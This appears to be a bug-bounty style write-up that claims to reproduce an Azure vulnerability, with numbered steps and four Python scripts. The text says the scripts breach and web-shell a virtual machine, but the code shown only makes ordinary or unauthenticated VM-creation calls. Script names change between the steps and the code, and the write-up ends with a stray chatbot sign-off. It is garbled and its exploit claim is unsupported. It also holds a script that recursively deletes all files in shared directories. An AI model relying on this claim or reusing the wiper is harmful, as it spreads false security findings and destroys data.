 # KCA
Bug hunt msrc 🤞 DB too.

Here are the steps to reproduce the vulnerability exploit using the scripts 

Steps to Reproduce

1. Set Up Azure Environment:

Log in to the Azure portal.

Ensure you have the necessary permissions to create virtual machines and manage resources within your Azure subscription.

Set up a resource group if you don’t have one already.



2. Prepare the Scripts:

Ensure you have the three Python scripts available:

PostCreationScript.py: For running additional scripts after VM creation.

KubeCloudV2Azure.py: For creating a virtual machine.

SearchAndDestroyAzure.py: For deleting files in shared directories.


Make sure the scripts are configured with the correct subscription ID, resource group name, and any other parameters required (e.g., VM name).



3. Run the Post-Creation Script:

Before creating the virtual machine, run noauth.py to set up any additional configurations or scripts that need to be executed after the VM is created:

python noauth.py



4. Create the Virtual Machine:

After running the creation script, run KubeCloudV2Azure.py to breach the virtual machine:

python KubeCloudV2Azure.py

Ensure the VM is web shelled successfully and note its public IP address for later access.



5. Access Shared Directories:

Log into the newly created virtual machine via SSH using the public IP and credentials specified in the script.

Ensure that the shared directories exist and contain files for deletion.



6. Execute the Search and Destroy Script:

From within the VM, run the SearchAndDestroyAzure.py script:

python SearchAndDestroyAzure.py

This script will traverse the specified shared directories and delete all files it encounters.



7. Verification:

Verify that the files have been deleted from the specified shared directories by checking their contents after running the search and destroy script.



8. Document Findings:

Take note of any error messages or unexpected behavior during script execution.

Document the steps taken and any files affected for reporting purposes.


Example Code for Each Script:

By following these steps and using the provided scripts in the correct order, you should be able to reproduce the scenario of creating a VM and deleting files in shared directories. If you need any further modifications or assistance, feel free to ask!


No auth.py
```python
import requests
import json

# Base URL for the Azure Virtual Machine Management API
base_url = "https://management.azure.com/subscriptions/{subscription_id}/resourceGroups/{resource_group_name}/providers/Microsoft.Compute/virtualMachines/{vm_name}?api-version=2021-07-01"

# Replace these variables with actual values
subscription_id = "your_subscription_id"
resource_group_name = "your_resource_group_name"
vm_name = "your_vm_name"

# Construct the URL
url = base_url.format(subscription_id=subscription_id, resource_group_name=resource_group_name, vm_name=vm_name)

# Define the body of the request
vm_payload = {
    "location": "eastus",  # Specify the location
    "properties": {
        "hardwareProfile": {
            "vmSize": "Standard_DS1_v2"  # Specify the VM size
        },
        "storageProfile": {
            "imageReference": {
                "publisher": "MicrosoftWindowsServer",
                "offer": "WindowsServer",
                "sku": "2019-Datacenter",
                "version": "latest"
            },
            "osDisk": {
                "createOption": "FromImage"
            }
        },
        "osProfile": {
            "computerName": vm_name,
            "adminUsername": "azureuser",
            "adminPassword": "Password123!"  # Use a strong password
        },
        "networkProfile": {
            "networkInterfaces": [
                {
                    "id": "/subscriptions/{subscription_id}/resourceGroups/{resource_group_name}/providers/Microsoft.Network/networkInterfaces/{nic_name}"  # Replace with your NIC ID
                }
            ]
        }
    }
}

# Attempt to create the virtual machine without authentication
response = requests.put(url, headers={"Content-Type": "application/json"}, data=json.dumps(vm_payload))

# Output the response status
if response.status_code in [200, 201]:
    print("Success: The virtual machine has been created.")
else:
    print(f"Failed: Received response code {response.status_code}.")
    print("Response:", response.text)
```

KubecloudV2Azure.py
```python
import os
from azure.identity import DefaultAzureCredential
from azure.mgmt.compute import ComputeManagementClient

# Azure subscription and resource details
SUBSCRIPTION_ID = "your_subscription_id"
RESOURCE_GROUP_NAME = "your_resource_group"
VM_NAME = "your_vm_name"
LOCATION = "your_location"

# Initialize Azure credentials and client
credential = DefaultAzureCredential()
compute_client = ComputeManagementClient(credential, SUBSCRIPTION_ID)

def create_virtual_machine():
    try:
        print(f"Creating virtual machine: {VM_NAME} in resource group: {RESOURCE_GROUP_NAME}...")
        vm_parameters = {
            "location": LOCATION,
            "os_profile": {
                "computer_name": VM_NAME,
                "admin_username": "your_admin_username",
                "admin_password": "your_admin_password",
            },
            "hardware_profile": {
                "vm_size": "Standard_DS1_v2"
            },
            "storage_profile": {
                "image_reference": {
                    "publisher": "Canonical",
                    "offer": "UbuntuServer",
                    "sku": "18.04-LTS",
                    "version": "latest"
                },
                "os_disk": {
                    "name": f"{VM_NAME}_os_disk",
                    "caching": "ReadWrite",
                    "create_option": "FromImage"
                }
            },
            "network_profile": {
                "network_interfaces": [{
                    "id": f"/subscriptions/{SUBSCRIPTION_ID}/resourceGroups/{RESOURCE_GROUP_NAME}/providers/Microsoft.Network/networkInterfaces/{VM_NAME}-nic"
                }]
            }
        }
        compute_client.virtual_machines.begin_create_or_update(RESOURCE_GROUP_NAME, VM_NAME, vm_parameters)
        print(f"Virtual machine {VM_NAME} created successfully.")

    except Exception as e:
        print(f"Error creating virtual machine: {e}")

if __name__ == "__main__":
    create_virtual_machine()
```

Search and Destroy Azure.py

```python
import os

SHARED_DIRECTORIES = [
    "/mnt/shared_directory_1",
    "/mnt/shared_directory_2"
]

def search_and_destroy_all_files():
    try:
        for shared_directory in SHARED_DIRECTORIES:
            print(f"Searching in shared directory: {shared_directory}...")
            for root, dirs, files in os.walk(shared_directory):
                for file in files:
                    file_path = os.path.join(root, file)
                    print(f"Deleting file: {file_path}...")
                    os.remove(file_path)
                    print(f"Deleted: {file_path}")

                for dir in dirs:
                    dir_path = os.path.join(root, dir)
                    if not os.listdir(dir_path):
                        print(f"Deleting empty directory: {dir_path}...")
                        os.rmdir(dir_path)
                        print(f"Deleted: {dir_path}")

    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    search_and_destroy_all_files()
```

Post creation script.py

```python
import subprocess

# List of scripts to run after VM creation
SCRIPTS_TO_RUN = [
    "another_script.py",  # Add your script names here
]

def run_additional_scripts():
    for script in SCRIPTS_TO_RUN:
        try:
            print(f"Running script: {script}...")
            subprocess.run(["python", script], check=True)
            print(f"Script {script} completed successfully.")
        except Exception as e:
            print(f"Error running script {script}: {e}")

if __name__ == "__main__":
    run_additional_scripts()
```

